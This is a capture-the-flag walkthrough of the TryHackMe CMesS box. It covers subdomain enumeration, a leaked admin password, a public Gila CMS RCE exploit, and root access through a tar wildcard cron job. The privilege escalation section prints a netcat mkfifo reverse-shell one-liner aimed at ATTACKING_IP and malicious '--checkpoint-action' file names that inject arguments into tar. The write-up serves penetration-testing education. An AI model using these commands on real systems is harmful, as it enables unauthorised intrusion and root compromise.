



This box is rated medium difficulty on THM. It involves us enumerating a developer subdomain to find a temporary password used at an administrator panel. Then we grab a reverse shell with an authenticated RCE vulnerability in and outdated version of Gila CMS. Finally, we discover a file containing backup credentials and abuse a crontab using the tar binary to grab a shell as root user.

_Can you root this Gila CMS box?_

## Scanning & Enumeration
As always I start with an Nmap scan against the given IP to find all running services on the host. The scope info gives us the domain of _cmess.thm_ to add to our `/etc/hosts` file and discloses that no part should require brute forcing.

```
$ sudo nmap -p22,80 -sCV 10.64.144.33 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-31 01:46 CST
Nmap scan report for cmess.thm (10.64.144.33)
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server

Default nmap scripts show that there are three disallowed entries for the site at `/src`, `/themes`, and `/lib`. With this box being web-heavy, I fire up Gobuster to scan for subdomains/subdirectories in the background to save on time. Checking the page shows that it's running Gila CMS and has only one test post.



Looking at all the entries under robots.txt return a 403 Forbidden error so we can't outright look at the source code. The footer also discloses a website date of 2017, which would be when Gila CMS was releasing 1.3.X versions. I keep that in mind if we end up looking for known vulnerabilities without finding the version somewhere.

Searchsploit returns a few exploits to try out if enumeration gets us nowhere.

```
$ searchsploit gila cms               
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Gila CMS 1.10.9 - Remote Code Execution (RCE) (Authenticated)                     | php/webapps/51569.py
Gila CMS 1.11.8 - 'query' SQL Injection                                           | php/webapps/48590.py
Gila CMS 1.9.1 - Cross-Site Scripting                                             | php/webapps/46557.txt
Gila CMS 2.0.0 - Remote Code Execution (Unauthenticated)                          | php/webapps/49412.py
Gila CMS < 1.11.1 - Local File Inclusion                                          | multiple/webapps/47407.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

At this point my scans were done and I find a valid subdomain at `dev.cmess.thm`. Let's take a look at it.

```
$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://cmess.thm/ -H "Host: FUZZ.cmess.thm" -fl 108        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 108
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31, Duration: 3982ms]
```

## Exploitation
After adding that subdomain to my /etc/hosts and navigating to it, I find what looks like a chat log for developers. They disclose a misconfiguration in the .htaccess file as well as a temporary password for andre's account used to sign into the admin panel.



That's good info as we know the live site is most likely prone to some type of attack regarding HTTP requests or header modification. Next, I try to sign into the admin panel they spoke of.


## Initial Foothold
That password is still viable to sign in as Andre and we can now see that the site's running `Gila CMS v1.10.9`. Some quick research on Exploit-DB shows that this version is prone to [CVE-2024–7657](https://nvd.nist.gov/vuln/detail/cve-2024-7657), I use [this PoC](https://www.exploit-db.com/exploits/51569) to get RCE on the box.

This exploit works due to how the site handles HTTP POST requests in an unknown file at `/cm/update_rows/page?id=2`. An attacker can manipulate the argument content to include malicious HTML scripts, and in turn remote command exection on all affected systems.

That python script made things easy and spawned a quick shell for us as www-data. Now let's look around for potential routes to escalate privileges to Andre or root user. It also looks like the devs hadn't changed the site's `.htaccess` file to deny files with the `.php` extension, which led to us grabbing a shell.


## Privilege Escalation
I discover a backup tar archive in the `/tmp` directory. A crontab makes a copy from a backup folder in Andre's home dir and converts it to a tar archive for later use.


I grab this from my attacking machine for further inspection and only find a note that says any file within the directory will be backed up by root.

```
(cbev㉿kali)-[~/cmess]
└─$ tar -xvzf andre_backup.tar.gz 
note
                                                                                                                                                                                                                                             
┌──(cbev㉿kali)-[~/cmess]
└─$ ls
500  andre_backup.tar.gz  fullscan-tcp  note
                                                                                                                                                                                                                                             
┌──(cbev㉿kali)-[~/cmess]
└─$ cat note
Note to self.
Anything in here will be backed up!
```

This isn't much use to us right now as we can't write files to the backup directory, however I'll showcase a cool privesc technique that abuses the wildcard option on the crontab's tar command once we're there.

We still need access to Andre's account first, so I go back to enumerating. I find a config.php file in `/var/www` that contains a password for the site's root user. 



This is the same for the MySQL service on the machine so I use those creds to dump the Gila database, which gives me a hash for Andre's admin account. I sent that to JohnTheRipper but nothing returned, meaning I wasted some time in a rabbit hole.

A bit more time enumerating internally rewards me with a file containing andre's backup password at `/opt/.password.bak`. 

```
andre@cmess:/tmp$ cd /opt
andre@cmess:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
andre@cmess:/opt$ cat .password.bak 
andres backup password
[REDACTED]
```

After switching users we can grab the user flag under his home directory and quickly pivot to a root shell with a nifty trick. As mentioned before, there is a crontab running as root that will make a tar archive of Andre's backup folder. Normally this would be pretty insignificant, but the command accepts additional parameters using the asterisk (*) operator at the end. We can use that to our advantage my creating malicious filenames that will be executed by the tar command.

[Here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) is a separate article explaining a few other methods pertaining to this case.

First, I cd into /home/andre/backup and run the following commands:

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKING_IP PORT>/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

The first is a standard mkfifo reverse shell using netcat that points toward my attacking machine, where I have a listener set up at. The second and third are empty files which are named so that they will be passed into the command as arguments.


_Note: Make sure the first two files in the backup dir are the flags starting with double dash as that's important for the exploit to function correctly._

A slightly better explanation would be that when a tar command is run against a directory, it will execute something similar to below:

```
tar -zcf /tmp/andre_backup.tar.gz file1
tar -zcf /tmp/andre_backup.tar.gz file2
tar -zcf /tmp/andre_backup.tar.gz file3
```

That asterisk will be replaced with the name of our file, because it attempts to zip it to another location. However, when the file starts with `--[argument]`, the tar binary treats the name as a parameter and moves to the next file.

So in our case, the binary will execute `cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz --checkpoint-action=exec=sh shell.sh` (which sets a checkpoint action to execute the shell.sh file using `/bin/sh`), and then `cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz --checkpoint=1` (which tells the binary to execute the checkpoint action).

Finally, once the cronjob executes that chain we get a shell on the box as root and can grab the final flag at `/root/root.txt`.


This box was pretty fun so thanks to [optional](https://tryhackme.com/p/optional) for creating it. I hope this was helpful to anyone following along or stuck and happy hacking!
